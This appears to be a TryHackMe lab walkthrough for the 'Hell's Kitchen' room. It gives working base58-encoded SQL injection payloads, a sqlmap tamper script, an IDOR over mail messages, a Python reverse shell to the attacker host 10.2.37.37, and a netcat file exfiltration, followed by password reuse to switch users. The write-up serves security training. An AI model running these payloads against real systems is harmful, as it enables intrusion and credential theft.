

# TryHackMe-DX2: Hell's Kitchen

**Scope:**

- IDOR (Insecure Direct Object Reference)
- SQL Injection (SQLi)
- UFW (Uncomplicated Firewall)
- WebSocket

**Keywords:**

- API Checking
- SQL Injection Phase
- sqlmap
- sqlmap Tamper
- Base58 Decoding
- CyberChef
- JS Code Investigation
- IDOR (Insecure Direct Object Reference) Phase
- WebSocket Manipulation

**Main Commands:**

- `nmap -sV -sC -sS -T4 -A -O -oN nmap_result.txt -Pn --min-rate=300 --max-retries=3 -p- $target_ip`
- `echo '55oYpt6n8TAVgZajSq7YATSAe' | base58 -d`
- `nano dx2_booking_tamper.py`
- `sqlmap -u "http://dx2.thm/api/booking-info?booking_key=" -p "booking_key" --tamper=dx2_booking_tamper.py --dbms=sqlite --technique=U --string="not found" --random-agent --level=5 --risk=3 --dump --batch`
- `curl -i -s -k -X $'POST' -H $'Host: dx2.thm' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Origin: http://dx2.thm.thm' --data-binary $'user_name=pdenton&pass_word=4321chameleon' $'http://dx2.thm:4346'`
- `curl -i -s -k -X $'GET' -H $'Host: dx2.thm:4346' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'id=KAjJTnWgZ3j1RhhXuAe5RisSwGQC3zZ99opwRVUJSMmaaEtGi+NDwtjNuosW%2FbwKKaPS4pjy%2Fj8hrg%3D%3D' $'http://dx2.thm:4346/mail'`
- `curl -i -s -k -X $'GET' -H $'Host: dx2.thm:4346' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'id=KAjJTnWgZ3j1RhhXuAe5RisSwGQC3zZ99opwRVUJSMmaaEtGi+NDwtjNuosW%2FbwKKaPS4pjy%2Fj8hrg%3D%3D' $'http://dx2.thm:4346/api/message?message_id=1'`
- `curl -s -k -X $'GET' -H $'Host: dx2.thm:4346' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'id=KAjJTnWgZ3j1RhhXuAe5RisSwGQC3zZ99opwRVUJSMmaaEtGi+NDwtjNuosW%2FbwKKaPS4pjy%2Fj8hrg%3D%3D' $'http://dx2.thm:4346/api/message?message_id=2' | base64 -d`
- `nc -l -p 80 > boss.jpg`

**System Commands:**

- `' UNION SELECT 1,2 -- -`
- `' UNION SELECT sqlite_version(), 42 --`
- `' UNION SELECT 1,sql FROM sqlite_schema -- -`
- `' UNION SELECT GROUP_CONCAT(name, ', '), 42 FROM sqlite_master WHERE type='table'--`
- `' UNION SELECT GROUP_CONCAT(name, ', '), 42 FROM pragma_table_info('email_access')--`
- `' UNION SELECT email_username, email_password FROM email_access LIMIT 1 OFFSET 1--`
- `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.37.37",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
- `python3 -c 'import pty; pty.spawn("/bin/bash")’`
- `export TERM=xterm`
- `whoami`
- `sudo -l`
- `sudo /usr/sbin/ufw status`
- `su sandra`
- `nc -w 3 10.2.37.37 80 < Pictures/boss.jpg`

### Laboratory Environment

[TryHackMe | Cyber Security Training](https://tryhackme.com/r/room/dx2hellskitchen)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sV -sC -sS -T4 -A -O -oN nmap_result.txt -Pn --min-rate=300 --max-retries=3 -p- $target_ip`

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http
|_http-title: Welcome to the 'Ton!
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     content-length: 859
|     date: Tue, 01 Oct 2024 09:34:45 GMT
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8">
|     <title>Welcome to the 'Ton!</title>
|     <link rel="stylesheet" href="static/style.css"></link>
|     </head>
|     <body>
|     <div class="main">
|     
|     <h1>Welcome to the 'Ton!</h1>
|     <h2>Fine Hotel Rooms, Hell's Kitchen, New York</h2>
|     <button id="booking" disabled>Book your Room</button>
|     <button onclick="window.location.href='/guest-book'">Guest Book</button>
|     <button onclick="window.location.href='/about-us'">About Us</button>
|     
|     </div>
|     <div class="footer">Copyright @ 2052</div>
|     <script src="static/check-roo
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     content-length: 0
|     date: Tue, 01 Oct 2024 09:34:45 GMT
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     content-length: 0
|     connection: close
|     date: Tue, 01 Oct 2024 09:34:44 GMT
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     content-length: 0
|     connection: close
|_    date: Tue, 01 Oct 2024 09:34:46 GMT
4346/tcp open  elanlm?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     content-length: 10909
|     date: Tue, 01 Oct 2024 09:34:50 GMT
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>NYCCOM.USERS.PUB</title>
|     <style>
|     html, body {
|     height: 100%;
|     background-color: black;
|     color: white;
|     font-family: 'Courier New', Courier, monospace;
|     font-size: 1em;
|     body {
|     margin: 0;
|     display: flex;
|     align-items: center;
|     justify-content: center;
|     .background {
|     width: 28em;
|     height: 7em;
|     background-color: #777;
|     position: absolute;
|     border-radius: 1em;
|     border: 0.2em solid #999;
|     clip-path: polygon(75% 0, 100% 100%, 100% 100%, 0 100%, 0 0);
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     content-length: 0
|     connection: close
|_    date: Tue, 01 Oct 2024 09:34:44 GMT
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://dx2.thm`

```bash
HTTP/1.1 200 OK
content-length: 859
date: Tue, 01 Oct 2024 09:48:26 GMT

<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Welcome to the 'Ton!</title>
        <link rel="stylesheet" href="static/style.css"></link>
    </head>
    <body>
        <div class="main">
            
            <h1>Welcome to the 'Ton!</h1>
            <h2>Fine Hotel Rooms, Hell's Kitchen, New York</h2>
            <button id="booking" disabled>Book your Room</button>
            <button onclick="window.location.href='/guest-book'">Guest Book</button>
            <button onclick="window.location.href='/about-us'">About Us</button>
            
                <div class="footer">Copyright @ 2052</div>
        <script src="static/check-rooms.js"></script>
    </body>
</html>  
```

> **Internal Logic Discovery & API Control Phase**
> 

`curl -iLX GET http://dx2.thm/static/check-rooms.js`

```bash
HTTP/1.1 200 OK
content-length: 504
content-type: text/javascript
date: Tue, 01 Oct 2024 09:50:39 GMT

fetch('/api/rooms-available').then(response => response.text()).then(number => {
    const bookingBtn = document.querySelector("#booking");
    bookingBtn.removeAttribute("disabled");
    if (number < 6) {
        bookingBtn.addEventListener("click", () => {
            window.location.href = "new-booking";
        });
    } else {
        bookingBtn.addEventListener("click", () => {
            alert("Unfortunately the hotel is currently fully booked. Please try again later!")
        });
    }
}); 
```

`curl -iLX GET http://dx2.thm/api/rooms-available`

```bash
HTTP/1.1 200 OK
content-length: 1
date: Tue, 01 Oct 2024 09:52:39 GMT

6
```

`curl -iLX GET http://dx2.thm/new-booking`

```bash
HTTP/1.1 200 OK
content-length: 1033
set-cookie: BOOKING_KEY=55oYpt6n8TAVgZajSq7YATSAe
date: Tue, 01 Oct 2024 09:56:46 GMT

<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Welcome to the 'Ton!</title>
        <link rel="stylesheet" href="static/style.css"></link>
    </head>
    <body>
        <div class="main">
            <a href="/"></a>
            <h2>No rooms are presently available - Please check again later!</h2>
            <div style="display:none">
                <form method="POST">
                    <label>Select Available Room:<br/><select id="rooms"></select></label>
                    <div>
                        Price per night: c<span id="price">99</span><br/>
                        <label>Nights: <input type="number" id="nights" min="1" value="1" /></label>
                    </div>
                    <input type="submit" value="Confirm & Pay" />
                </form>
            </div>
        </div>
        <div class="footer">Copyright @ 2052</div>
        <script src="static/new-booking.js"></script>
    </body>
</html>  
```




**RESULT:**

```bash
booking_id:8053353
```

**For online tool:**

[CyberChef](https://gchq.github.io/CyberChef/)

`echo '55oYpt6n8TAVgZajSq7YATSAe' | base58 -d`

```bash
booking_id:8053353
```

`curl -iLX GET http://dx2.thm/static/new-booking.js`

```bash
HTTP/1.1 200 OK
content-length: 420
content-type: text/javascript
date: Tue, 01 Oct 2024 10:02:46 GMT

function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

fetch('/api/booking-info?booking_key=' + getCookie("BOOKING_KEY")).then(response => response.json()).then(data => {
    document.querySelector("#rooms").value = data.room_num;
    document.querySelector("#nights").value = data.days;
});
```

`curl -iLX GET http://dx2.thm/api/booking-info?booking_key=55oYpt6n8TAVgZajSq7YATSAe`

```bash
HTTP/1.1 404 Not Found
content-length: 9
date: Tue, 01 Oct 2024 10:03:38 GMT

not found 
```

`echo 'booking_id:1111111' | base58`

```bash
K2CTULYWBtUubcosB8pF1egnnV
```

`curl -iLX GET http://dx2.thm/api/booking-info?booking_key=K2CTULYWBtUubcosB8pF1egnnV`

```bash
HTTP/1.1 404 Not Found
content-length: 9
date: Tue, 01 Oct 2024 10:04:40 GMT

not found
```

> **SQL Injection Phase**
> 

`echo "booking_id:'" | base58`

```bash
9CY2trzQUKeK58P5cm
```

`curl -iLX GET 'http://dx2.thm/api/booking-info?booking_key=9CY2trzQUKeK58P5cm'`

```bash
HTTP/1.1 400 Bad Request
content-length: 11
date: Tue, 01 Oct 2024 10:12:19 GMT

bad request 
```


**PAYLOAD:**

```bash
booking_id:1' UNION SELECT 1,2 -- -
ApfkkDrFctMBrXvW3fJPqtgiyDhrqKLGAWqaQpgwBY91n3Pa
```

`curl -iLX GET 'http://dx2.thm/api/booking-info?booking_key=ApfkkDrFctMBrXvW3fJPqtgiyDhrqKLGAWqaQpgwBY91n3Pa'`

```bash
HTTP/1.1 200 OK
content-length: 27
content-type: application/json
date: Tue, 01 Oct 2024 10:19:16 GMT

{"room_num":"1","days":"2"}
```


**PAYLOAD:**

```bash
booking_id:1' UNION SELECT sqlite_version(), 42--
GwNvZAhNk5XbSyAP4TxY1sv7GxGU2CaaEBN7XnSGJEVLpFM7Bu7SEXeegycsXuiKyqE
```

`curl -iLX GET 'http://dx2.thm/api/booking-info?booking_key=GwNvZAhNk5XbSyAP4TxY1sv7GxGU2CaaEBN7XnSGJEVLpFM7Bu7SEXeegycsXuiKyqE'`

```bash
HTTP/1.1 200 OK
content-length: 33
content-type: application/json
date: Tue, 01 Oct 2024 10:20:39 GMT

{"room_num":"3.42.0","days":"42"} 
```


**PAYLOAD:**

```bash
booking_id:1' UNION SELECT 1,sql FROM sqlite_schema -- -
3fcdDXstvQBMjWHxTTY4rSpJ6j94tbFcTa7mQHUhBQKPjaSNqvhXzbC5knNsCQxwVfve8CVBUgAQk
```

`curl -iLX GET 'http://dx2.thm/api/booking-info?booking_key=3fcdDXstvQBMjWHxTTY4rSpJ6j94tbFcTa7mQHUhBQKPjaSNqvhXzbC5knNsCQxwVfve8CVBUgAQk'`

```bash
HTTP/1.1 200 OK
content-length: 96
content-type: application/json
date: Tue, 01 Oct 2024 10:22:35 GMT

{"room_num":"1","days":"CREATE TABLE bookings_temp (booking_id TEXT, room_num TEXT, days TEXT)"}
```


**PAYLOAD:**

```bash
booking_id:1' UNION SELECT GROUP_CONCAT(name, ', '), 42 FROM sqlite_master WHERE type='table'--
8gaZgzPCL5P8n7uzSkk5mopHTab8BdrAD3JgqfoNMNDhtC87qQ7wpajzCaqBovTxQG2X9Za4n9NsmYkMTABdKNwcWyAzby9VfUyjYfbQeKtQxMqSwDKXoUKoqzGNdXmmcG
```

`curl -iLX GET 'http://dx2.thm/api/booking-info?booking_key=8gaZgzPCL5P8n7uzSkk5mopHTab8BdrAD3JgqfoNMNDhtC87qQ7wpajzCaqBovTxQG2X9Za4n9NsmYkMTABdKNwcWyAzby9VfUyjYfbQeKtQxMqSwDKXoUKoqzGNdXmmcG'`

```bash
HTTP/1.1 200 OK
content-length: 68
content-type: application/json
date: Tue, 01 Oct 2024 10:26:18 GMT

{"room_num":"email_access, reservations, bookings_temp","days":"42"}
```


**PAYLOAD:**

```bash
booking_id:1' UNION SELECT GROUP_CONCAT(name, ', '), 42 FROM pragma_table_info('email_access')--
auh9HWGy1CLhL9WtYg5A4mdheKFchwdye9B4qpFfEtf5Sx6RAd3ey1vjU8Kgi6yyXfKi4nkwgFyZ5d8MGTXtzn83uLWQBztGdgSVb6PPTzetLHdvgv6vAc8WgNc1hAtpn44
```

`curl -iLX GET 'http://dx2.thm/api/booking-info?booking_key=auh9HWGy1CLhL9WtYg5A4mdheKFchwdye9B4qpFfEtf5Sx6RAd3ey1vjU8Kgi6yyXfKi4nkwgFyZ5d8MGTXtzn83uLWQBztGdgSVb6PPTzetLHdvgv6vAc8WgNc1hAtpn44'`

```bash
HTTP/1.1 200 OK
content-length: 69
content-type: application/json
date: Tue, 01 Oct 2024 10:33:51 GMT

{"room_num":"guest_name, email_username, email_password","days":"42"} 
```


**PAYLOAD:**

```bash
booking_id:1' UNION SELECT email_username, email_password FROM email_access LIMIT 1 OFFSET 1--
2jxBaXg1kk8jYX7ZxE5n2zjS2VTJwX6hbuBMMZLfmMWMeU6371uTDyGp6Snkz85ftbNS5Fzt5apVTY9m3cvkFZvNma7cwPbPVxr4DfFzgS51C51KkcC8P4XUKJTqM8EEG
```

`curl -iLX GET 'http://dx2.thm/api/booking-info?booking_key=2jxBaXg1kk8jYX7ZxE5n2zjS2VTJwX6hbuBMMZLfmMWMeU6371uTDyGp6Snkz85ftbNS5Fzt5apVTY9m3cvkFZvNma7cwPbPVxr4DfFzgS51C51KkcC8P4XUKJTqM8EEG'`

```bash
HTTP/1.1 200 OK
content-length: 45
content-type: application/json
date: Tue, 01 Oct 2024 10:35:31 GMT

{"room_num":"pdenton","days":"4321chameleon"}  
```

> **SQLMap Automation Phase**
> 

`nano dx2_booking_tamper.py`

```bash
from lib.core.enums import PRIORITY
import base58

__priority__ = PRIORITY.HIGHEST

def tamper(payload, **kwargs):
    """
    Encode the payload with base58 :)
    """
    if payload:
        prefixed_payload = f"booking_id:{payload}"
        encoded_payload = base58.b58encode(prefixed_payload.encode()).decode()
        return encoded_payload
    return payload
```

`cp dx2_booking_tamper.py /usr/share/sqlmap/tamper/dx2_booking_tamper.py`

`sqlmap -u "http://dx2.thm/api/booking-info?booking_key=" -p "booking_key" --tamper=dx2_booking_tamper.py --dbms=sqlite --technique=U --string="not found" --random-agent --level=5 --risk=3 --dump --batch`

```bash
[REDACTED] - MORE

+----------+------------------+----------------+
| room_num | guest_name       | days_remaining |
+----------+------------------+----------------+
| 1        | Gully Foyle      | 301            |
| 2        | Gabriel Syme     | 114            |
| 3        | Oberst Enzian    | 50             |
| 4        | Paul Denton      | 6              |
| 5        | Smilla Jasperson | 412            |
| 6        | Hippolyta Hall   | 256            |
+----------+------------------+----------------+

[06:51:05] [INFO] table 'SQLite_masterdb.reservations' dumped to CSV file '/root/.local/share/sqlmap/output/dx2.thm/dump/SQLite_masterdb/reservations.csv'                                                                                                                                          
[06:51:05] [INFO] fetching columns for table 'bookings_temp' 
[06:51:07] [INFO] fetching entries for table 'bookings_temp'
[06:51:09] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[06:51:09] [WARNING] unable to retrieve the entries for table 'bookings_temp' in database 'SQLite_masterdb'
[06:51:09] [INFO] fetching columns for table 'email_access' 
[06:51:11] [INFO] fetching entries for table 'email_access'
Database: <current>
Table: email_access
[6 entries]
+------------------+----------------+-----------------+
| guest_name       | email_password | email_username  |
+------------------+----------------+-----------------+
| Gully Foyle      | <blank>        | NEVER LOGGED IN |
| Gabriel Syme     | <blank>        | NEVER LOGGED IN |
| Oberst Enzian    | <blank>        | NEVER LOGGED IN |
| Paul Denton      | 4321chameleon  | pdenton         |
| Smilla Jasperson | <blank>        | NEVER LOGGED IN |
| Hippolyta Hall   | <blank>        | NEVER LOGGED IN |
+------------------+----------------+-----------------+

[REDACTED] - MORE
```

> **Accessing Internal System**
> 

`curl -iLX GET http://dx2.thm:4346`

```bash
[REDACTED] - MORE

                <div class="dialog_contents">
                    <div class="main_content">
                        <div class="fields">
                            <div class="input_row">
                                <label for="user_name">User Name</label>
                                <input id="user_name" name="user_name" type="text" />
                            </div>
                            <div class="input_row">
                                <label for="pass_word">Password</label>
                                <input id="pass_word" name="pass_word" type="password" />
                            </div>
                        </div>
                        <div class="logo">
                        
 [REDACTED] - MORE
```

`curl -i -s -k -X $'POST' -H $'Host: dx2.thm' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Origin: http://dx2.thm.thm' --data-binary $'user_name=pdenton&pass_word=4321chameleon' $'http://dx2.thm:4346'`

```bash
HTTP/1.1 303 See Other
content-length: 0
set-cookie: id=aFAP67jAJoUReqx3uTJfGN4i3Tu%2FFvmoquXUqv64O2Ltr6J1cg036WV24gskOOKZs%2F1ZOR3HvHLqdQ%3D%3D; HttpOnly; SameSite=Lax; Path=/; Max-Age=7200
location: /mail
date: Tue, 01 Oct 2024 10:53:30 GMT
```


`curl -i -s -k -X $'GET' -H $'Host: dx2.thm:4346' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'id=KAjJTnWgZ3j1RhhXuAe5RisSwGQC3zZ99opwRVUJSMmaaEtGi+NDwtjNuosW%2FbwKKaPS4pjy%2Fj8hrg%3D%3D' $'http://dx2.thm:4346/mail'`

```bash
[REDACTED] - MORE

<pre id="email_content">From: SweetCharity//GenericMail.34673.78541
To: Paul Denton//NYCNET.33.34.4346
Subject: Miss You

I left a message on your machine but wanted to follow up.  With both of us
traveling it's hard to get together, isn't it?  I miss you so much.  I'll make
it up to you when I get back.  Oh, wait, your brother's staying with you, isn't
he?  Well, just wait until you're alone.  We'll work things out. Promise.

Kisses.
</pre>
                    </div>
                    <div class="status url_path">Daedalus:GlobalNode:USA//DOMESTIC//NYCCOM.USERS.PUB/Email</div>
                </div>
                <div class="dialog_controls">
                    <button><u>L</u>ogout</button>
                </div>
            </div>
        </form>
        <div class="time"></div>
        <script type="text/javascript">
            let elems=document.querySelectorAll(".email_list .row");for(var i=0;i<elems.length;i++){elems[i].addEventListener("click",(e=>{document.querySelector(".email_list .selected").classList.remove("selected"),e.target.parentElement.classList.add("selected");let t=e.target.parentElement.getAttribute("data-id"),n=e.target.parentElement.querySelector(".col_from").innerText,r=e.target.parentElement.querySelector(".col_subject").innerText;document.querySelector("#from_header").innerText=n,document.querySelector("#subj_header").innerText=r,document.querySelector("#email_content").innerText="",fetch("/api/message?message_id="+t).then((e=>e.text())).then((e=>{document.querySelector("#email_content").innerText=atob(e)}))})),document.querySelector(".dialog_controls button").addEventListener("click",(e=>{e.preventDefault(),window.location.href="/"}))}const wsUri=`ws://${location.host}/ws`;socket=new WebSocket(wsUri);let tz=Intl.DateTimeFormat().resolvedOptions().timeZone;socket.onmessage=e=>document.querySelector(".time").innerText=e.data,setInterval((()=>socket.send(tz)),1e3);
        </script>
    </body>
</html>  
```

**JS CODE FROM SITE:**

```bash
        < script type = "text/javascript" >
            let elems = document.querySelectorAll(".email_list .row");
        for (var i = 0; i < elems.length; i++) {
            elems[i].addEventListener("click", (e => {
                document.querySelector(".email_list .selected").classList.remove("selected"), e.target.parentElement.classList.add("selected");
                let t = e.target.parentElement.getAttribute("data-id"),
                    n = e.target.parentElement.querySelector(".col_from").innerText,
                    r = e.target.parentElement.querySelector(".col_subject").innerText;
                document.querySelector("#from_header").innerText = n, document.querySelector("#subj_header").innerText = r, document.querySelector("#email_content").innerText = "", fetch("/api/message?message_id=" + t).then((e => e.text())).then((e => {
                    document.querySelector("#email_content").innerText = atob(e)
                }))
            })), document.querySelector(".dialog_controls button").addEventListener("click", (e => {
                e.preventDefault(), window.location.href = "/"
            }))
        }
        const wsUri = `ws://${location.host}/ws`;
        socket = new WebSocket(wsUri);
        let tz = Intl.DateTimeFormat().resolvedOptions().timeZone;
        socket.onmessage = e => document.querySelector(".time").innerText = e.data, setInterval((() => socket.send(tz)), 1e3); <
        /script>
```

**For online tools:**

[Online JavaScript beautifier](https://beautifier.io/)

[de4js](https://lelinhtinh.github.io/de4js/)

> **IDOR (Insecure Direct Object Reference) Phase**
> 

`curl -i -s -k -X $'GET' -H $'Host: dx2.thm:4346' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'id=KAjJTnWgZ3j1RhhXuAe5RisSwGQC3zZ99opwRVUJSMmaaEtGi+NDwtjNuosW%2FbwKKaPS4pjy%2Fj8hrg%3D%3D' $'http://dx2.thm:4346/api/message?message_id=1'`

```bash
HTTP/1.1 200 OK
content-length: 552
date: Tue, 01 Oct 2024 11:02:17 GMT

RnJvbTogU3dlZXRDaGFyaXR5Ly9HZW5lcmljTWFpbC4zNDY3My43ODU0MQpUbzogUGF1bCBEZW50b24vL05ZQ05FVC4zMy4zNC40MzQ2ClN1YmplY3Q6IE1pc3MgWW91CgpJIGxlZnQgYSBtZXNzYWdlIG9uIHlvdXIgbWFjaGluZSBidXQgd2FudGVkIHRvIGZvbGxvdyB1cC4gIFdpdGggYm90aCBvZiB1cwp0cmF2ZWxpbmcgaXQncyBoYXJkIHRvIGdldCB0b2dldGhlciwgaXNuJ3QgaXQ/ICBJIG1pc3MgeW91IHNvIG11Y2guICBJJ2xsIG1ha2UKaXQgdXAgdG8geW91IHdoZW4gSSBnZXQgYmFjay4gIE9oLCB3YWl0LCB5b3VyIGJyb3RoZXIncyBzdGF5aW5nIHdpdGggeW91LCBpc24ndApoZT8gIFdlbGwsIGp1c3Qgd2FpdCB1bnRpbCB5b3UncmUgYWxvbmUuICBXZSdsbCB3b3JrIHRoaW5ncyBvdXQuIFByb21pc2UuCgpLaXNzZXMu 
```

`echo 'RnJvbTogU3dlZXRDaGFyaXR5Ly9HZW5lcmljTWFpbC4zNDY3My43ODU0MQpUbzogUGF1bCBEZW50b24vL05ZQ05FVC4zMy4zNC40MzQ2ClN1YmplY3Q6IE1pc3MgWW91CgpJIGxlZnQgYSBtZXNzYWdlIG9uIHlvdXIgbWFjaGluZSBidXQgd2FudGVkIHRvIGZvbGxvdyB1cC4gIFdpdGggYm90aCBvZiB1cwp0cmF2ZWxpbmcgaXQncyBoYXJkIHRvIGdldCB0b2dldGhlciwgaXNuJ3QgaXQ/ICBJIG1pc3MgeW91IHNvIG11Y2guICBJJ2xsIG1ha2UKaXQgdXAgdG8geW91IHdoZW4gSSBnZXQgYmFjay4gIE9oLCB3YWl0LCB5b3VyIGJyb3RoZXIncyBzdGF5aW5nIHdpdGggeW91LCBpc24ndApoZT8gIFdlbGwsIGp1c3Qgd2FpdCB1bnRpbCB5b3UncmUgYWxvbmUuICBXZSdsbCB3b3JrIHRoaW5ncyBvdXQuIFByb21pc2UuCgpLaXNzZXMu' | base64 -d`

```bash
From: SweetCharity//GenericMail.34673.78541
To: Paul Denton//NYCNET.33.34.4346
Subject: Miss You

I left a message on your machine but wanted to follow up.  With both of us
traveling it's hard to get together, isn't it?  I miss you so much.  I'll make
it up to you when I get back.  Oh, wait, your brother's staying with you, isn't
he?  Well, just wait until you're alone.  We'll work things out. Promise.

Kisses.
```

`curl -s -k -X $'GET' -H $'Host: dx2.thm:4346' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'id=KAjJTnWgZ3j1RhhXuAe5RisSwGQC3zZ99opwRVUJSMmaaEtGi+NDwtjNuosW%2FbwKKaPS4pjy%2Fj8hrg%3D%3D' $'http://dx2.thm:4346/api/message?message_id=2' | base64 -d`

```bash
From: KVORK, Inc.//NYCNET.89.09.64.53
To: Multiple Recipients
Subject: SPAM: Tired of life?

Hello Friend,

Has life become too impersonal, too tedius, too painful for you?  Then now is
the time to exert control, to make that decision which is ultimately the only
real choice we ever have: the decision to die.

Some may describe this as an act of selfishness, but with the dwindling
reserves of natural resources throughout the world you're actually
contributing to the well-being of all those around you.  A recent bill passed
by the United States Congress even authorizes a one-time payment of c10,000 to
your chosen benefactor upon passing away.

So do yourself, your family, and your friends a favor and visit any one of the
KVORK, Inc. clinics in a neighborhood near you. We'll help you make a
difference - quickly and quietly.

Sincerely,

Derek Schmitt
Director of Development, KVORK, inc. 
```

> **Web Socket Manipulation & Reverse Shell Phase**
> 


`nc -nlvp 443`

```bash
listening on [any] 443 ...
```

`python3 -m http.server 80`

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

`nano index.html`

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.37.37",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' 
```


```bash
listening on [any] 443 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.242.66] 42266
$ whoami
whoami
gilbert
$ id
id
uid=1001(gilbert) gid=1001(gilbert) groups=1001(gilbert)
$ pwd
pwd
/
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
gilbert@tonhotel:/$ export TERM=xterm
export TERM=xterm
gilbert@tonhotel:/$ 

```

> **Internal File Enumeration**
> 

```bash
gilbert@tonhotel:/$ cd ~
gilbert@tonhotel:~$ ls
dad.txt  hotel-jobs.txt
gilbert@tonhotel:~$ cat dad.txt
left you a note by the site -S
gilbert@tonhotel:~$ cat hotel-jobs.txt
hotel tasks, q1 52

- fix lights in the elevator shaft, flickering for a while now
- maybe put barrier up in front of shaft, so the addicts dont fall in
- ask sandra AGAIN why that punk has an account on here (be nice, so good for her to be home helping with admin)
- remember! 'ilovemydaughter'

buy her something special maybe - she used to like raspberry candy - as thanks for locking the machine down. 'ports are blocked' whatever that means. my smart girl
gilbert@tonhotel:~$ 

```

> **Another Account Shell**
> 

```bash
gilbert@tonhotel:~$ sudo -l

[sudo] password for gilbert: ilovemydaughter

Matching Defaults entries for gilbert on tonhotel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gilbert may run the following commands on tonhotel:
    (root) /usr/sbin/ufw status
    
gilbert@tonhotel:~$ sudo /usr/sbin/ufw status
Status: active

To                         Action      From
--                         ------      ----
80/tcp                     ALLOW       Anywhere                  
4346/tcp                   ALLOW       Anywhere                  
80/tcp (v6)                ALLOW       Anywhere (v6)             
4346/tcp (v6)              ALLOW       Anywhere (v6)             

80/tcp                     ALLOW OUT   Anywhere                  
443/tcp                    ALLOW OUT   Anywhere                  
80/tcp (v6)                ALLOW OUT   Anywhere (v6)             
443/tcp (v6)               ALLOW OUT   Anywhere (v6)             

gilbert@tonhotel:~$ ls -lsa /srv
total 6080
   4 drwxr-xr-x  2 root   root       4096 Jul 19 21:02 .
   4 drwxr-xr-x 19 root   root       4096 Oct 22  2022 ..
   4 -rw-r-----  1 sandra gilbert     183 Sep 10  2023 .dad
3160 -rwx--x---  1 root   gilbert 3234904 Jul 19 20:51 nycomm_link_v7895
2908 -rwx------  1 root   root    2976128 Sep  9  2023 tonhotel

gilbert@tonhotel:~$ cat /srv/.dad
cat /srv/.dad
i cant deal with your attacks on my friends rn dad, i need to take some time away from the hotel. if you need access to the ton site, my pw is where id rather be: anywherebuthere. -S

gilbert@tonhotel:~$ ls /home
gilbert  jojo  sandra
gilbert@tonhotel:~$ su sandra
su sandra
Password: anywherebuthere

$ whoami
whoami
sandra
$ id
id
uid=1002(sandra) gid=1002(sandra) groups=1002(sandra)
